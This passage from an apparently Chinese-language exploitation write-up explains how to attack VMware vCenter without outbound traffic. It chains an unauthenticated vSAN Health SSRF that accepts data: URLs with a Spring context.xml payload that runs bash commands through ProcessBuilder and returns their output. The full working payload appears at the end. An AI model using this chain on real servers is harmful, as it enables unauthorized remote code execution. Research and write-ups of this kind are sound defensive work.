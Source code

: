 ##### [](#%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8)不出网利用

若要利用此漏洞，本质上需要获取一个 XML 文件的内容，而 Java 的 URL 并不支持 data 协议，那么需要返回内容可控的 SSRF 或者文件上传漏洞。这里利用的是返回内容可控的 SSRF 漏洞。漏洞位于 `/usr/lib/vmware-vpx/vsan-health/pyMoVsan/` 下的 vSAN Health 组件中 `VsanHttpProvider.py` 存在一个未授权访问 SSRF。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072016217.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072016217.png-water_print")

漏洞点是 238 行 `urlopen` 库函数进行 HTTP 请求，接着将返回内容在内存中进行解压，并且匹配文件名为 `.*offline_bundle.*` 的内容并进行返回。Python 的 `urlopen` 支持 data 协议，所以可以构造一个压缩包并 Base64 编码，构造 data 协议的 URL：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072056316.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072056316.png-water_print")

在利用的过程中，将 IP 地址替换为 localhost 即可防止 `.` 被替换。由于这个路由在 6.5 版本的 vSAN Health 不存在，所以无法在 6.5 版本上不出网利用。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072110648.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072110648.png-water_print")

现在虽然不用进行外网请求，但是仍然无法获取命令回显。通过查看 Bean 列表，发现存在名为 `systemProperties` 的 Bean。同时这个 Bean 也存在方法可以获取属性内容：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072104027.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205072104027.png-water_print")

所以在执行 SpEL 时，可以将命令暂存到 `systemProperties` 中，然后利用 `getProperty` 方法获取回显。最终的 context.xml 内容为：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>``` | ```xml<br><beans xmlns="http://www.springframework.org/schema/beans"<br>       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"<br>       xsi:schemaLocation="<br>     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd"><br>    <bean id="pb" class="java.lang.ProcessBuilder"><br>        <constructor-arg><br>          <list><br>            <value>/bin/bash</value><br>            <value>-c</value><br>            <value><![CDATA[ ls -la /  2>&1 ]]></value><br>          </list><br>        </constructor-arg><br>    </bean><br>    <bean id="is" class="java.io.InputStreamReader"><br>        <constructor-arg><br>            <value>#{pb.start().getInputStream()}</value><br>        </constructor-arg><br>    </bean><br>    <bean id="br" class="java.io.BufferedReader"><br>        <constructor-arg><br>            <value>#{is}</value><br>        </constructor-arg><br>    </bean><br>    <bean id="collectors" class="java.util.stream.Collectors"></bean><br>    <bean id="system" class="java.lang.System"><br>        <property name="whatever" value="#{ system.setProperty(&quot;output&quot;, br.lines().collect(collectors.joining(&quot;\n&quot;))) }"/><br>    </bean><br></beans><br>``` |
